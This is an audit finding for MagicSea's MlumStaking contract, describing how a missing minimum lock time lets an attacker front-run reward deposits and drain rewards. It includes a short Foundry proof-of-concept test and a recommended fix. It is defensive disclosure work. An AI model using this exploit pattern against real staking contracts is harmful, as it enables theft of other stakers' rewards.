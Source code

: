 Huge Banana Swan

High

# MlumStaking rewards can be drained

## Summary
Since there is no minimum staking time, the reward mechanism can be gamed to drain the rewards from the contract as soon as they are added.

## Vulnerability Detail
Any added reward can be drained as soon as they are added to the contract, given that there is no minimum lock time. Because of this, any attacker could easily front-run the reward transfer to create a position with a significant amount of tokens locked, harvest the rewards and then withdraw the tokens from the pool.

## Impact
The described behavior will allow any user to drain the rewards, stealing them from the legitimate user's portion.

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L677-L678
## Tool used

Manual Review

PoC:

```solidity
    function drainRewards() public{ 
        _stakingToken.mint(ALICE, 1 ether);
        _stakingToken.mint(BOB, 1 ether);
        _stakingToken.mint(HACKER, 1000 ether); 

        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 365 days);
        
        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 365 days);

        vm.startPrank(HACKER); 
        _stakingToken.approve(address(_pool), 1000 ether);
        _pool.createPosition(1000 ether, 0);
        vm.stopPrank();

        _rewardToken.mint(address(_pool), 100_000_000); //Adding rewards

        vm.startPrank(HACKER);
        _pool.harvestPosition(3);
        _pool.withdrawFromPosition(3, 1000 ether);
    }
```

## Recommendation
A minimum locking time should be defined, so the positions are eligible to claim rewards. 